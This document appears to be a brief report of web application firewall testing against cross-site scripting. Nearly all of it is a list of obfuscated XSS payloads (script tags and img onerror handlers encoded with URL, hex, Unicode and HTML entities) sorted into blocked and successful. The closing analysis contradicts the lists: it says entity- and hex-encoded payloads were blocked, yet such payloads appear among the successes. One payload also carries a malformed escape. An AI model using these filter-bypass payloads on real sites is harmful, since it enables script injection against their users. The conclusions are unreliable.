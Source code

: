 After running the tests, document the following:

## Blocked Payloads:

1. Payload blocked: <img src=x onerror=%61%6c%65%72%74(1)>
2. Payload blocked: <script>\x61\x6c\x65\x72\x74(1)</script>
3. Payload blocked: <img src=x onerror=\u0061\u006c\u0065\u0072\0074(1)>
4. Payload blocked: <script>&#97;&#108;&#101;&#114;&#116;(1)</script>


## Successful Payloads:

<script>&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;</script>
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
<script>alert%281%29</script>
<img src=x onerror=alert%281%29>
<script>\x61\x6c\x65\x72\x74\x28\x31\x29</script>
<img src=x onerror=\x61\x6c\x65\x72\x74\x28\x31\x29>
<script>\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029</script>
<img src=x onerror=\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029>

## Analysis:

The WAF successfully blocked payloads encoded with HTML entities and hex encoding, indicating a robust character-based filter for these encodings.
The WAF failed to block payloads encoded with Unicode and URL encoding, suggesting that these specific encodings were not adequately filtered.
